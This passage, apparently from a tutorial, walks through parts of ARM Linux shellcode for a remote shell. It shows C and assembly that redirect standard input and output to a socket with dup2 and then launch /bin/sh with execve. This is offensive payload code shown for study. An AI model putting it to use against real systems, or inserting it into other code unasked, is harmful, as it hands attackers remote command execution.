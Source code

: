 
#### E. Duplicate File Descriptors

```c
    // Redirect stdin/stdout/stderr to socket
    dup2(clientfd, 0);  // STDIN
    dup2(clientfd, 1);  // STDOUT
    dup2(clientfd, 2);  // STDERR
    
    // Close original client fd (not strictly needed)
    close(clientfd);
```

```s
// STDIN (0)
mov r0, r5      // client fd
mov r1, #0
mov r7, #63     // dup2
svc #0

// STDOUT (1)
mov r0, r5
mov r1, #1
svc #0

// STDERR (2)
mov r0, r5
mov r1, #2
svc #0
```

- Three `dup2` calls for each standard file descriptor
- Same syscall number (63) called three times with different args

#### F. Execute Shell

```c
    // Execute shell
    char *args[] = {NULL};
    char *env[] = {NULL};
    
    execve("/bin/sh", args, env);
    
    // Only reaches here if execve fails
    perror("execve failed");
    close(sockfd);
    exit(EXIT_FAILURE);
}
```

```s
adr r0, shell   // "/bin/sh"
mov r1, #0      // NULL argv
mov r2, #0      // NULL envp
mov r7, #11     // execve
svc #0

shell:
    .asciz "/bin/sh"
```
